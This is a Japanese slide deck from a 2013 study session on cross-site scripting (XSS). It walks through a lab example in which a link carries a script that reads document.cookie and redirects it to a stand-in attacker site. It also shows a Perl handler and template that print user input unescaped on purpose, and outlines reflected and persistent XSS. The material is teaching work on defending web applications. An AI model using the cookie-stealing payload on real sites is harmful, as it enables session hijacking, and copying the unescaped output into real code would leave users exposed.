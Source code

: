 # XSS

2013/11/17 @ 徳丸本勉強会

---

## XSS最初の体験

[ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS) のREADMEに従ってやります．

---

## [ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS) のXSS攻撃のまとめ

1. 攻撃者が
   <strong>脆弱サイト.com/status?uid=&lt;script&gt;*Javascript*&lt;/script&gt;</strong>
   というリンクを作る
1. 攻撃者がそのリンクをどこか(SNSとか)に貼る
1. 被害者がリンクを踏むと，脆弱サイトのCookie情報を(`GET`プロトコルで)持ちつつ攻撃者サイトにリダイレクトされる
1. 攻撃者サイトは被害者のCookie情報から脆弱サイトへのログインに必要な情報を得て，脆弱サイトに被害者として不正ログイン

---

## XSS攻撃が成立した理由

- `脆弱サイト.com/status` において，ユーザの入力値がエスケープなしに使用されていた

[Dispatcher.pm](https://github.com/laysakura/20131117-tokumaru-benkyokai/blob/gh-pages/sample-sites/vulnerable-sites/ex00_WhatIsXSS/lib/ex00_WhatIsXSS/Web/Dispatcher.pm)から抜粋
```perl
get '/status' => sub {
    my $c = shift;
    my $uid  = $c->req->param('uid');  # /status?uid=[ユーザ入力値]
    return $c->render('status.tx', {
        uid => $uid,
    });
};
```

[status.tx](https://github.com/laysakura/20131117-tokumaru-benkyokai/blob/gh-pages/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx)から抜粋
```html
<dl>
  <dt>ID</dt>
  <dd><: $uid | mark_raw :></dd>  <!-- ここで <> をエスケープしないといけない -->

  <dt>フォロワー数</dt>
  <dd>42</dd>
</dl>
```


## XSS攻撃が成立した理由

`<: $uid | mark_raw :>`の部分には`<script>`タグを入れることが可能なので，その中で**任意のJSコード**が実行されてしまう．


## XSS攻撃が成立した理由

今回の「任意のJSコード」は，以下のようなものだった．

1. 脆弱サイトのクッキーを取得する: `document.cookie`
1. それを攻撃者サイトに転送する: `window.location="http://攻撃者サイト.com/?cookie="+document.cookie`

---

# おわかりいただけただろうか?

---

## 今日やること

1. XSS最初の体験&解説 ([ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS): 済み)
1. XSSの肝 ([ex02](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/vulnerable-sites/ex02_PostOmanchin))
1. クイズで覚える! パターン別XSS脆弱性対策
1. おまけ: JSを使わないXSS ([ex03](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex03_FormOverride))

---

# XSSの肝

---

## XSSの分解

1. 攻撃者が任意のJSコードを脆弱サイトに注入
1. 被害者が攻撃者の注入したJSコードを脆弱サイトにて実行
1. (JSコードに応じて)何か嫌なことが起こる

---

## 攻撃者がJSコードを注入

反射型


## 攻撃者がJSコードを注入

持続型

---

## 被害者がJSコードを実行

- 反射型: リンク踏んだり
- 持続型: ページ表示したり

---

## (JSコードに応じて)何か嫌なことが起こる

- 被害者の持つ情報が盗まれる
  - Cookie ([ex00](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex00_WhatIsXSS))
  - 個人情報，クレカ番号 ([ex01](https://github.com/laysakura/20131117-tokumaru-benkyokai/tree/gh-pages/sample-sites/attacker-sites/ex01_FormOverride))

- 被害者の意図していない情報を発信してしまう
  - ぼくはまちちゃん

- ...

---

## 詳細今日やること

1. XSS体験&解説 - ex00
1. XSSの肝
  - 攻撃者が任意のJSコードを注入 (反射型，持続型)
  - 被害者が攻撃者の注入したJSコードを実行
  - 何か嫌なことが起こる
    - 情報盗まれる系 -> 攻撃者サイトに誘導する必要性
      - 元サイトドメインのリンクを踏ませる => window.locationによるリダイレクト (ex00)
      - 元々攻撃者サイトに誘導しておいて，iframeで脆弱サイトを埋め込んでおく => window.locationによるリダイレクト (ex01)
    - わけわからんこと発信しちゃう系
      - ぼくはまちちゃん
      - ex02 (独自の何か投稿サイトの中で，独自サイトへの罠リンク踏ませると変なポスト, 脆弱サイト内で完結するという意味でXSSって名称はどうなんでしょうね)
1. クイズで覚える! パターン別XSS脆弱性対策
1. おまけ: JSを使わないXSS (ex03)
